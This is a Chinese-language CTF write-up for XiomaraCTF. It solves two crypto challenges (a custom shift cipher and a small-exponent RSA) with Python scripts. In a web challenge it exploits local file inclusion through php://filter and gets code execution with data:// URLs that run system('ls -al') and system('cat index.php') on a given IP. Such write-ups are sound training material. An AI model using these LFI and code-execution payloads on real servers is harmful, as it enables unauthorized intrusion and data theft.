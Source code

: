 ```yaml
---
title: XiomaraCTF 解題
tags: CTF, 解題, 筆記
---
```


HackMD網址：https://hackmd.io/s/B1grPrzOf

有些水題就不寫writeup了，交給其他人吧 (´・ω・`)

# Crypto - Custom HEN

密文：
```
082_336_88_167755403
```

題目跟你說，密文的產生方式是：
```
# encryption
FLAG -> HEN_Cipher -> alphametic puzzle -> CipherText
```

所以我們只要逆向這個加密過程就好了：
```
# decryption
FLAG <- HEN_Cipher <- alphametic puzzle <- CipherText
```


先用 [alphametic puzzle solver](http://www.tkcs-collins.com/truman/alphamet/alpha_solve.shtml) 把每個數字代表的英文找出來：

![](https://i.imgur.com/I8IEJtQ.png)

得到：
![](https://i.imgur.com/aII59cu.png)

將密文替換：
```
082_336_88_167755403 = CZF_KKU_ZZ_GUYYPPNCK
```


:::danger
HEN的加密模式：
左移偏移量 = ((字母的位置) * (字串總長度)) mod 26
注意！字串總長度不包含底線！
:::

:::success
HEN的解密方法：
右移偏移量 = ((字母的位置) * (字串總長度)) mod 26
不過首先要解決的就是 'A' 往右偏移1位如何到 'Z'
:::

這邊我寫了 python script 作解密，分別算出每個字母的偏移量與明文。

字母左移的部份我採用 ASCII 來作減法運算。

```python=
#! /usr/bin/python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
# Copyright © 2018 howpwn <finn79426@gmail.com>


Ciphertext = 'CZFKKUZZGUYYPPNCK' # remove the "_"

plaintext_size = len(Ciphertext)

left_move = []
plaintext = ""

print "Ciphertext: {0}".format(Ciphertext)

print "Each alphabet left shift is:"
for i in range(0, plaintext_size):
    left_move.append(((i+1) * plaintext_size) % 26)
    print "alphabet[{0}] need {1} step".format(i+1, left_move[i])
print "----------"

print "Counting the left shift alphabet is what..."
for i in range(0, plaintext_size):
    temp = ord(Ciphertext[i]) + left_move[i]
    if temp > 90: # 如果 temp 大於 ASCII 的 "Z"，我們就必須將它檢掉 26 讓它回到 A 開始繼續往右移
        temp -= 26
    plaintext += chr(temp)
    print plaintext
print "----------"
```

(PS:這樣code好亂Orz...我應該用function去實作的...)

執行完腳本後會得到 "THEARSOFDIDUCTION"，這個時候把底線與FLAG頭加上去就是正確答案了。

xiomara{THE\_ARS\_OF_DIDUCTION}

---

# Crypto - Giveaway

可以秒解。


1. N 太大，factordb不能分解出p、q
2. e 很小

```python=
#! /usr/bin/python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
# Copyright © 2018 howpwn <finn79426@gmail.com>

from libnum import n2s
from gmpy2 import iroot
e = 3
n = 481198641867289038243532927701020249905433964052522187774270437592775342143784702291483427578470414194602731404343532513840453569385856109993166637836189117235549985093499643724363002153995995953731212190003813128852867940536928597102669895224512199695772684398151784349020282852823384810308548307944122748283
c = 2039130155866184490894181588949291569587424373754875837330412835527276040280846677481047284126316137541961805207979583672570357348995401556991229785828117383170279052532972654304372432603436204862621797


m = iroot(c,e)
print n2s(m[0])
```

由於e太小、N太大，導致於：
c = $m^{e}$ mod n 
&nbsp;&nbsp;&nbsp;= $m^{e}$

也就是說，如果要解密m
m = $\sqrt[e] {c}$

xiomara{4y3_4y3_cryp70_6uy!}


# Web - Flag Locker

這網站有LFI漏洞

可以用 php://filter 看到該網頁的源碼 (記得base64 decode)

```
http://103.5.112.91:1234/?locker=php://filter/convert.base64-encode/resource=why
```
不過依然找不到 FLAG，所以我們必須要能夠 RCE 才能找出FLAG：

```
http://103.5.112.91:1234/?locker=data://text/plain,<?php system("ls -al")?>;
```

最後，其實FLAG是在 index.php 裡面
```
http://103.5.112.91:1234/?locker=data://text/plain,<?php system("cat index.php")?>;
```

xiomara{s0metim3s_fl@g_c@n_b3_d3cl@red_@s_v@riable}

---
